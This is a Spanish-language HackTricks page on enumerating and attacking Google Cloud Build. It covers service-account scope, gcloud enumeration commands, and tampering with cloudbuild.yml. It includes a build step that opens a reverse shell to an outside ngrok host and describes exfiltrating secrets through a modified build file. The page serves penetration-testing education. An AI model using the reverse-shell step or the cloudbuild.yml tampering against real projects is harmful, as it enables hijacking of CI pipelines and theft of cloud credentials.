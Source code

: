 # GCP - Enumeración de Cloud Build

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de Github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Google Cloud Build es una plataforma gestionada de CI/CD que **automatiza los procesos de construcción y lanzamiento de software**, integrándose con **repositorios de código fuente** y soportando una amplia gama de lenguajes de programación. **Permite a los desarrolladores construir, probar y desplegar código automáticamente** mientras ofrece flexibilidad para personalizar los pasos de construcción y los flujos de trabajo.

Cada Disparador de Cloud Build está **relacionado con un Repositorio Cloud o directamente conectado con un repositorio externo** (Github, Bitbucket o Gitlab).

Es posible configurar un Cloud Build para **requerir aprobaciones para la ejecución de construcciones** (deshabilitado por defecto).

La **Cuenta de Servicio tiene el alcance `cloud-platform`**, por lo que puede **usar todos los privilegios.** Si **no se especifica una Cuenta de Servicio** (como cuando se hace un envío) se **usará la Cuenta de Servicio predeterminada** `<proj-number>@cloudbuild.gserviceaccount.com`.

{% hint style="success" %}
No encontré ninguna manera de robar el token de Github/Bitbucket desde aquí o desde los Repositorios Cloud porque cuando se descarga el repositorio se accede a través de una URL [https://source.cloud.google.com/](https://source.cloud.google.com/) y Github no es accedido por el cliente.
{% endhint %}

### Almacenamiento

A veces Cloud Build **generará un nuevo almacenamiento para guardar los archivos del disparador**. Esto sucede, por ejemplo, en el ejemplo que ofrece GCP con:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket de Storage llamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) se crea para almacenar un `.tgz` con los archivos a utilizar.

### Obtener shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeración

Podrías encontrar **información sensible en configuraciones de compilación y registros**.
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## Escalación de Privilegios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acceso No Autenticado

### cloudbuild.yml

Si comprometes el acceso de escritura sobre un repositorio que contiene un archivo llamado **`cloudbuild.yml`**, podrías **manipular** este archivo, el cual especifica los **comandos que se van a ejecutar** dentro de un Cloud Build y exfiltrar los secretos, comprometer lo que se hace y también comprometer la **cuenta de servicio de Cloud Build.**

{% hint style="info" %}
Nota que GCP tiene la opción de permitir a los administradores controlar la ejecución de sistemas de construcción desde PRs externos a través de "Control de Comentarios". Control de Comentarios es una característica donde los colaboradores/propietarios del proyecto **necesitan comentar “/gcbrun” para activar la construcción** contra el PR y usar esta característica previene inherentemente que cualquiera en internet active tus sistemas de construcción.
{% endhint %}

Para información relacionada puedes revisar la página sobre cómo atacar Github Actions (similar a esto):

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en github.

</details>
